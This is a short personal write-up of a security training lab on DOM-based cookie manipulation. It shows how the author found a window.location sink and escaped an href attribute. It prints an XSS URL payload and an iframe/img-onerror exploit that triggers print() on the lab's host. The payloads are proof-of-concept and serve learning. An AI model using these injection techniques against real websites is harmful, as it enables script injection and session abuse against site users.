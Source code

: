 # [DOM Vuln] Lab: DOM-based cookie manipulation (1)

---

![Untitled](%5BDOM%20Vuln%5D%20Lab%20DOM-based%20cookie%20manipulation%20(1)%209c55489aa7ee4650a499c1295e1df0e1/Untitled.png)

found a possible sink: 

![Untitled](%5BDOM%20Vuln%5D%20Lab%20DOM-based%20cookie%20manipulation%20(1)%209c55489aa7ee4650a499c1295e1df0e1/Untitled%201.png)

since the website is using the window.location for the last session cookie 

**NOTE GO TO PAGE SOURCE FIRST ALWAYS:** 

![Untitled](%5BDOM%20Vuln%5D%20Lab%20DOM-based%20cookie%20manipulation%20(1)%209c55489aa7ee4650a499c1295e1df0e1/Untitled%202.png)

looking at the view page source we see the href uses single quotes where as the inspect page source uses double quotes 

to to escape the href tag I need to use double quotes. 

using this payload 

```jsx
HTTP://myurl.ca/product?productId=1&'><script>alert(1)</script>';!--
```

since the website is using the window.location for the last session cookie 

![Untitled](%5BDOM%20Vuln%5D%20Lab%20DOM-based%20cookie%20manipulation%20(1)%209c55489aa7ee4650a499c1295e1df0e1/Untitled%203.png)

was able to use this github: {}and used a payload from there to do filter evasion but I also needed to change it

![Untitled](%5BDOM%20Vuln%5D%20Lab%20DOM-based%20cookie%20manipulation%20(1)%209c55489aa7ee4650a499c1295e1df0e1/Untitled%204.png)

![Untitled](%5BDOM%20Vuln%5D%20Lab%20DOM-based%20cookie%20manipulation%20(1)%209c55489aa7ee4650a499c1295e1df0e1/Untitled%205.png)

my exploit: 

```jsx
<iframe src="https://0a700066038d3bf981ad39ba00da001e.web-security-academy.net/product?productId=1" onload="window.location.href='https://0a700066038d3bf981ad39ba00da001e.web-security-academy.net/product?productId=1&%27><script>print()</script>%27'"> 

<iframe><img title="</iframe><img src onerror=window.location.href='https://0a700066038d3bf981ad39ba00da001e.web-security-academy.net/product?productId=1&%27><script>print()</script>%27'>"></iframe>

</iframe>

```

![Untitled](%5BDOM%20Vuln%5D%20Lab%20DOM-based%20cookie%20manipulation%20(1)%209c55489aa7ee4650a499c1295e1df0e1/Untitled%206.png)

---